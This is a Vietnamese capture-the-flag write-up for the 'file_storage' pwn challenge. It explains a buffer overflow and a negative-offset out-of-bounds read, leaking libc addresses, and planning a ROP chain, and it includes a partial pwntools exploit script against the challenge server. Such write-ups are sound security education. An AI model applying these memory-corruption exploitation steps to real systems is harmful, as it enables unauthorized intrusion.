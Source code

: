 ## file_storage

Ở bài này, tác giả cho ta source code của file `file_storage.c`, tuy nhiên thì không có binary, do đó ta không biết được các compile flag (stack canary, PIE, ...) mà binary trên remote server sử dụng là gì. Sau khi audit một tí thì ta để ý thấy 2 bug:
- Một bug buffer overflow khá rõ ràng ở hàm `feedback`

![image](https://github.com/CP04042K/cp04042k.github.io/assets/35491855/05b0cac2-f645-4c58-b7eb-d7cabd1368b1)

- Một bug out-of-bound read xảy ra do ta có thể nhập số âm vào tham số `offset` khi thực hiện đọc file

![image](https://github.com/CP04042K/cp04042k.github.io/assets/35491855/70418781-daf2-46a3-8304-7a3c3e904c19)

Nếu độ dài của file nhỏ `4096` thì sẽ được lưu tạm ở .bss segment trong biến `fixed`, từ đó ta kết luận được trên remote thì binary sẽ được compile với Partial RELRO/No RELRO vì nếu không thì phần buffer này sẽ bị read-only. Nếu độ dài của file lớn hơn thì nó sẽ được allocate lên heap, lợi dụng điều này ta có thể thông qua heap để leak các pointer đến libc trên heap.

![image](https://github.com/CP04042K/cp04042k.github.io/assets/35491855/df60c7bc-72c5-4902-9dae-75736b00a6b5)

Để làm được như thế thì ta phải có một file có độ dài lớn, may mắn trên remote tác giả đã cho ta 2 file `4k` và `8k` chứa lần lượt 4000 và 8000 nullbyte

![image](https://github.com/CP04042K/cp04042k.github.io/assets/35491855/af5922a7-3f3a-474c-b0a6-bfc986c0b73f)

Hai địa chỉ mà ta leak được của libc lần lượt là của `_IO_2_1_stderr_` và `_IO_wfile_jumps`, ta sẽ tìm vài trang libc database để search offset và tìm xem libc version mà remote đang sử dụng là gì

![image](https://github.com/CP04042K/cp04042k.github.io/assets/35491855/9923a0cf-e891-42b8-b07c-52a86db3e0df)

Vậy là ta xác định được bài dùng glibc 2.31, giờ thì ta có thể dùng libc để ROP bằng bug buffer overflow ban đầu. Tuy nhiên để chắc chắn, ta cần xác định xem binary trên server có sử dụng stack canary hay không, ta có thể dùng bug out-of-bound read khi nãy để read từ .bss segment ngược về code segment, sau đó dùng capstone engine để check assembly và xem binary có gọi đến fs segment hay gọi đến `__stack_chk_fail` không

```python
from pwn import *
from pwn import u64, u32, p64, p32, unpack
import capstone

if args.REMOTE:
    io = remote("file_storage.pwnable.vn", 10000)
    libc = ELF("libc/libc-2.31.so", checksec=False)
    file = b"lorem"
    file_big = b"8k"
    bin_sh = 0x1b45bd
    pop_rdi = 0x23b6a
else:
    io = process("./a.out")
    libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
    file = b"a.txt"
    file_big = b"b.txt"
    bin_sh = 0x1d8678
    pop_rdi = 0x2a3e5

io.sendlineafter(b"> ", b"cat " + file_big + b" -4488 8")
leak = io.recvline()[0:6]
_IO_2_1_stderr_ = unpack(leak, word_size=8*6)

print("_IO_2_1_stderr_ @ " + hex(_IO_2_1_stderr_))

io.sendlineafter(b"> ", b"cat " + file_big + b" -4128 8")
leak = io.recvline()[0:6]
```